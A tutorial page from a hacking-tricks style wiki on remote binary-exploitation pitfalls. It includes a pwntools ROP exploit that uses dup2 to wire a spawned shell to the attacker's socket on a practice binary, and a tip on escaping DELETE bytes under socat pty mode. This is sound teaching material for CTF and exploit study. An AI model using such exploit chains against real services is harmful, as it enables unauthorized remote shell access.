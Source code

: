 # Common Exploiting Problems

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>

## FDs in Remote Exploitation

When sending an exploit to a remote server that calls **`system('/bin/sh')`** for example, this will be executed in the server process ofc, and `/bin/sh` will expect input from stdin (FD: `0`) and will print the output in stdout and stderr (FDs `1` and `2`). So the attacker won't be able to interact with the shell.

A way to fix this is to suppose that when the server started it created the **FD number `3`** (for listening) and that then, your connection is going to be in the **FD number `4`**. Therefore, it's possible to use the syscall **`dup2`** to duplicate the stdin (FD 0) and the stdout (FD 1) in the FD 4 (the one of the connection of the attacker) so it'll make feasible to contact the shell once it's executed.

[**Exploit example from here**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Socat & pty

Note that socat already transfers `stdin` and `stdout` to the socket. However, the `pty` mode **include DELETE characters**. So, if you send a `\x7f` ( `DELETE` -)it will **delete the previous character** of your exploit.

In order to bypass this the **escape character `\x16` must be prepended to any `\x7f` sent.**

**Here you can** [**find an example of this behaviour**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>

